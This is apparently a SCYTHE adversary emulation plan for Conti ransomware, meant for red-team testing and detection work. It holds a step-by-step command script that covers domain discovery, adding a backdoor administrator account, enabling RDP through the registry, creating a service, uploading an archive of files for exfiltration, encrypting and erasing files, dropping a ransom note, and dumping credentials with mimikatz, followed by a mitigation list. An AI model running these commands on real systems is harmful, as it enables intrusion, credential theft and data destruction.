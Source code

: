 # Conti Ransomware Adversary Emulation Plan

## Executive Summary
For this #ThreatThursday we are looking at one of the most common ransomware threats, Conti. 

## Cyber Threat Intelligence
This threat is based on The DFIR Report post on May 12, 2021: https://thedfirreport.com/2021/05/12/conti-ransomware/

### Profile
Conti is currently the “King of Ransomware on the DarkWeb” according to DarkTracer. They operate Ransomware-as-a-Service and are believed to be Russian.

### Targets
Conti ransomware has impacted healthcare and first responder networks as per the FBI Flash and multiple news outlets covering Ireland, New Zealand, and Canada health services. As Conti that has hit hundreds of organizations, we have enough CTI to create an adversary emulation plan.

### Objectives
- Double Extortion
- Ransomware
- Exfiltration of Data

## Attack
This section covers how to emulate the attack at the procedure level. 

### Automated Emulation
To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/Conti/Conti_scythe_threat.json
2. Download the Virtual File System (VFS) files under Conti/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/Conti
4. Create a new campaign, selecting HTTPS, and ensuring the communication options match the CTI: --cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 62 --jitter 39
5. Set the Program database path to: A:\source\conti_v3\x64\Release\cryptor_dll.pdb 
6. Import from Existing Threat: Conti
7. Launch Campaign
8. Execute with rundll32.exe

Note that different TTPs will be performed based on the endpoint being on a domain or not and running with local administrator privileges or not.

### Manual Emulation
```
Start (with https, loader, and controller)
STEP = DISCOVERY
loader --load run
run ipconfig /all
run systeminfo
run whoami /groups
run net config workstation
run net use
run echo %userdomain%
If step 8 contains "The system cannot find the file specified." goto step 15
run nltest /domain_trusts
run nltest /domain_trusts /all_trusts
run net view /all /domain
run net view /all
run net group "Domain Admins" /domain
STEP = PERSIST
controller --integrity
If step 16 does not contain "High" goto step 22
run net user /add /Y nuuser 7HeC00l3stP@ssw0rd
run net localgroup administrators nuuser /add
run cmd.exe /C reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
run cmd /c sc.exe create Conti binpath= c:\windows\system32\Conti.exe type= share start= auto
STEP = IMPACT
loader --load crypt
loader --load downloader
loader --load file
loader --load uploader
run powershell mkdir "%USERPROFILE%\Desktop\Conti"
file --create --path "%USERPROFILE%\Desktop\Conti\target_file.doc" --size 1MB --count 100 --random
run powershell "Compress-Archive -Path $env:userprofile\Desktop\Conti -CompressionLevel Optimal -Destination $env:userprofile\Desktop\exfil.zip"
uploader --remotepath "%USERPROFILE%\Desktop\exfil.zip"
crypt --target "%USERPROFILE%\Desktop\Conti\" --encrypt --password "dTonVhthjUJCMM6JkCi8" --erase
downloader --src "VFS:/shared/Conti/readme.txt" --dest "%USERPROFILE%\Desktop\readme.txt"
run powershell notepad "%USERPROFILE%\Desktop\readme.txt"
STEP = CLEANUP
run cmd /c rmdir /Q /S %USERPROFILE%\Desktop\Conti"
run cmd /c del "%USERPROFILE%\Desktop\exfil.zip"
run cmd /c del "%USERPROFILE%\Desktop\README.txt"
controller --integrity
If step 38 does not contain "High" goto step 46
run cmd.exe /C reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x1 /f
run net localgroup administrators nuuser /del
run net user /del nuuser
run sc delete Conti
loader --load mimikatz
mimikatz --arglist sekurlsa::logonPasswords
controller --shutdown
Finish
```

## Detection Opportunities
The FBI Flash covers a number of mitigations that we are providing in this post but also want to add a few items related to detection and response. Prevention will make initial access and execution a little harder but for those, logically, working under assumed breach, we need detection and response:

- Regularly back up data, air gap, and password protect backup copies offline. Ensure copies of critical data are not accessible for modification or deletion from the system where the data resides.
- Implement network segmentation.
- Implement a recovery plan to maintain and retain multiple copies of sensitive or proprietary data and servers in a physically separate, segmented, secure location (i.e., hard drive, storage device, the cloud).
- Install updates/patch operating systems, software, and firmware as soon as they are released.
- Use multifactor authentication where possible.
- Use strong passwords and regularly change passwords to network systems and accounts, implementing the shortest acceptable timeframe for password changes. Avoid reusing passwords for multiple accounts.
- Disable unused remote access/RDP ports and monitor remote access/RDP logs.
- Require administrator credentials to install software.
- Audit user accounts with administrative privileges and configure access controls with least privilege in mind.
- Install and regularly update anti-virus and anti-malware software on all hosts.
- Only use secure networks and avoid using public Wi-Fi networks. Consider installing and using a VPN.
- Consider adding an email banner to messages coming from outside your organizations.
- Disable hyperlinks in received emails.
- Focus on cyber security awareness and training. Regularly provide users with training on information security principles and techniques as well as overall emerging cybersecurity risks and vulnerabilities (i.e., ransomware and phishing scams).
- Detect when new services are created on endpoints
- Detect when certain registry keys are modified such as enabling Remote Desktop Protocol
- Detect when new users are created and/or added to the local administrator group


## References
- https://thedfirreport.com/2021/05/12/conti-ransomware/
- https://www.aha.org/system/files/media/file/2021/05/fbi-tlp-white-report-conti-ransomware-attacks-impact-healthcare-and-first-responder-networks-5-20-21.pdf?mod=djemCybersecruityPro&tpl=cy
